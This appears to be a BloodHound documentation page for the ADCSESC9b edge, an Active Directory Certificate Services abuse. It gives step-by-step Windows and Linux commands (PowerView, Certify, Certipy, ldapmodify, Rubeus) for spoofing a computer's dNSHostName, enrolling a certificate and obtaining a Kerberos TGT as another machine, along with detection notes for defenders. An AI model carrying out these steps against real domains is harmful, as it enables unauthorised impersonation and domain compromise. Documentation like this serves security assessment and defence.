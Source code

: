 ---
title: ADCSESC9b
description: "The principal has control over a victim computer with permission to enroll on one or more certificate templates, configured to: 1) enable certificate authentication, 2) require the `dNSHostName`  of the enrollee included in the Subject Alternative Name (SAN), and 3) not have the security extension enabled."
---

<Frame>
  <img src="/assets/image-2-1.png"/>
</Frame>


 The victim computer also has enrollment permission for an enterprise CA with the necessary templates published. This enterprise CA is trusted for NT authentication in the forest, and chains up to a root CA for the forest. There is an affected Domain Controller (DC) configured to allow weak certificate binding enforcement. This setup lets the principal impersonate any AD forest computer without their credentials.

The attacker principal can abuse their control over the victim computer to modify the victim computer's `dNSHostName` attribute to match the `dNSHostName` of a targeted computer. The attacker principal will then abuse their control over the victim computer to obtain the credentials of the victim computer, or a session as the victim computer, and enroll a certificate as the victim in one of the affected certificate templates. The `dNSHostName` of the victim will be included in the issued certificate under SAN DNS name. As the certificate template does not have the security extension, the issued certificate will NOT include the SID of the victim computer. DCs with strong certificate binding configuration will require a SID to be present in a certificate used for Kerberos authentication, but the affected DCs with weak certificate binding configuration will not. The affected DCs will split the SAN DNS name into a computer name and a domain name, confirm that the domain name is correct, and use the computer name appended a $ to identify principals with a matching `sAMAccountName`. At last, the DC issues a Kerberos TGT as the targeted computer to the attacker, which means the attacker now has a session as the targeted computer.

## Abuse Info

### Windows

Step 1: Remove SPNs including `dNSHostName` on victim.

The SPNs of the victim will be automatically updated when you change the `dNSHostName`. AD will not allow the same SPN entry to be set on two accounts. Therefore, you must remove any SPN on the victim account that includes the victim's `dNSHostName`. 

Set SPN of the victim computer using PowerView:

```bash
Set-DomainObject -Identity VICTIM -Set @{'serviceprincipalname'='HOST/victim'}
```

Step 2: Set `dNSHostName` of victim computer to targeted computer's `dNSHostName`.

Set the `dNSHostName` of the victim computer using PowerView:

```bash
Set-DomainObject -Identity VICTIM -Set @{'dnshostname'='target.corp.local'}
```
Step 3: Check if the 'mail' attribute of victim must be set and set it if required.

If the certificate template is of schema version 2 or above, and its attribute 'msPKI-CertificateNameFlag' contains the flag SUBJECT\_REQUIRE\_EMAIL and/or SUBJECT\_ALT\_REQUIRE_EMAIL, then the victim principal must have their mail attribute set for the certificate enrollment. The CertTemplate BloodHound node will have "Subject Require Email" or "Subject Alternative Name Require Email" set to true if any of the flags are present.

If the certificate template is of schema version 1 or does not have any of the email flags, then
continue to Step 4.

If any of the two flags are present, you will need the victim’s mail attribute to be set. The value of
the attribute will be included in the issues certificate but it is not used to identify the target
principal why it can be set to any arbitrary string.

Check if the victim has the mail attribute set using PowerView:

```bash
Get-DomainObject -Identity VICTIM -Properties mail
```

If the victim has the mail attribute set, continue to Step 4.

If the victim does not has the mail attribute set, set it to a dummy mail using PowerView:

```bash
Set-DomainObject -Identity VICTIM -Set @{'mail'='dummy@mail.com'}
```
Step 4: Obtain a session as victim.

There are several options for this step. You can obtain a session as SYSTEM on the host, which allows you to interact with AD as the computer account, by abusing control over the computer AD object (see [GenericAll edge](/hc/en-us/articles/GenericAll) documentation).

Step 5: Enroll certificate as victim.

Use Certify as the victim computer to request enrollment in the affected template, specifying the affected EnterpriseCA:

```bash
Certify.exe request /ca:SERVERCA-NAME /template:TEMPLATE /machine
```
Save the certificate as `cert.pem` and the private key as `cert.key`.

Step 6: Convert the emitted certificate to PFX format:

```bash
certutil.exe -MergePFX .\cert.pem .\cert.pfx
```
Step 7 (optional): Set `dNSHostName` and SPN of victim to the previous values.

To avoid issues in the environment, set the `dNSHostName` and SPN of the victim computer back to its previous values using PowerView:

```bash
Set-DomainObject -Identity VICTIM -Set @{'dnshostname'='victim.corp.local'}
```
```bash
Set-DomainObject -Identity VICTIM -Set @{'serviceprincipalname'='HOST/victim'}
```

Step 8: Perform Kerberos authentication as targeted computer against affected DC using certificate.

Use Rubeus to request a ticket granting ticket (TGT) from an affected DC, specifying the
target identity to impersonate and the PFX-formatted certificate created in Step 6:

```bash
Rubeus.exe asktgt /certificate:cert.pfx /user:TARGET$ /domain:DOMAIN /dc:DOMAIN_CONTROLLER
```

### Linux

Step 1: Remove SPNs including `dNSHostName` on victim.

The SPNs of the victim will be automatically updated when you change the `dNSHostName`. AD will not allow the same SPN entry to be set on two accounts. Therefore, you must remove any SPN on the victim account that includes the victim's `dNSHostName`.

Remove SPN entries with ldapmodify:

```bash
echo -e "dn: VICTIM-DN\nchangetype: modify\ndelete: servicePrincipalName\nservicePrincipalName: SPN" | ldapmodify -x -D "ATTACKER-DN" -w 'PWD' -h DOMAIN-DNS-NAME
```

Step 2: Set `dNSHostName` of victim computer to targeted computer's `dNSHostName`.

Set the `dNSHostName` of the victim computer using Certipy:

```bash
certipy account update -username ATTACKER@CORP.LOCAL -password PWD -user VICTIM -dns TARGET.CORP.LOCAL
```
Step 3: Check if the 'mail' attribute of victim must be set and set it if required.

If the certificate template is of schema version 2 or above, and its attribute 'msPKI-CertificateNameFlag' contains the flag SUBJECT\_REQUIRE\_EMAIL and/or SUBJECT\_ALT\_REQUIRE_EMAIL, then the victim principal must have their mail attribute set for the certificate enrollment. The CertTemplate BloodHound node will have "Subject Require Email" or "Subject Alternative Name Require Email" set to true if any of the flags are present.

If the certificate template is of schema version 1 or does not have any of the email flags, then
continue to Step 4.

If any of the two flags are present, you will need the victim’s mail attribute to be set. The value of
the attribute will be included in the issues certificate but it is not used to identify the target
principal why it can be set to any arbitrary string.

Check if the victim has the mail attribute set using ldapsearch:

```bash
ldapsearch -x -D "ATTACKER-DN" -w 'PWD' -h DOMAIN-DNS-NAME -b "VICTIM-DN" mail
```

If the victim has the mail attribute set, continue to Step 4.

If the victim does not has the mail attribute set, set it to a dummy mail using ldapmodify:

```bash
echo -e "dn: VICTIM-DN\nchangetype: modify\nreplace: mail\nmail: test@mail.com" | ldapmodify -x -D "ATTACKER-DN" -w 'PWD' -h DOMAIN-DNS-NAME
```

Step 4: Obtain a session as victim.

There are several options for this step. You can obtain a session as SYSTEM on the host, which allows you to interact with AD as the computer account, by abusing control over the computer AD object (see [GenericAll edge](/hc/en-us/articles/GenericAll) documentation).

Step 5: Enroll certificate as victim.

Use Certipy as the victim principal to request enrollment in the affected template, specifying the affected EnterpriseCA:

```bash
certipy req -u VICTIM@CORP.LOCAL -p PWD -ca CA-NAME -target SERVER -template TEMPLATE
```
Step 6 (optional): Set `dNSHostName` and SPN of victim to the previous values.

To avoid issues in the environment, set the `dNSHostName` and SPN of the victim computer back to its previous value using Certipy and ldapmodify:

```bash
certipy account update -username ATTACKER@CORP.LOCAL -password PWD -user VICTIM -dns VICTIM.CORP.LOCAL
```
```bash
echo -e "dn: VICTIM-DN\nchangetype: modify\nadd: servicePrincipalName\nservicePrincipalName: SPN" | ldapmodify -x -D "ATTACKER-DN" -w 'PWD' -h DOMAIN-DNS-NAME
```
Step 7: Perform Kerberos authentication as targeted computer against affected DC using certificate.

Request a ticket granting ticket (TGT) from an affected DC, specifying the certificate created in Step 5 and the IP of an affected DC:

```bash
certipy auth -pfx TARGET.pfx -dc-ip IP
```

**Opsec Considerations**

When the affected certificate authority issues the certificate to the attacker, it will retain a local copy of that certificate in its issued certificates store. Defenders may analyze those issued certificates to identify illegitimately issued certificates and identify the principal that requested the certificate, as well as the target identity the attacker is attempting to impersonate.

## References

This edge is related to the following MITRE ATT&CK tactic and techniques:

* [https://attack.mitre.org/techniques/T1649/](https://attack.mitre.org/techniques/T1649/) 

### Abuse and Opsec references

* Certipy 4.0
* [Certipy](https://github.com/ly4k/Certipy)
* [GhostPack Certipy](https://github.com/GhostPack/Certify)
* [GhostPack Rubeus](https://github.com/GhostPack/Rubeus)
* [Set-DomainObject](https://powersploit.readthedocs.io/en/latest/Recon/Set-DomainObject)
* [CertUtil.exe](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/certutil)
* [LDAPSearch](https://linux.die.net/man/1/ldapsearch)
* [LDAPModify](https://linux.die.net/man/1/ldapmodify)
* [https://specterops.io/wp-content/uploads/sites/3/2022/06/Certified_Pre-Owned.pdf](https://specterops.io/wp-content/uploads/sites/3/2022/06/Certified_Pre-Owned.pdf)
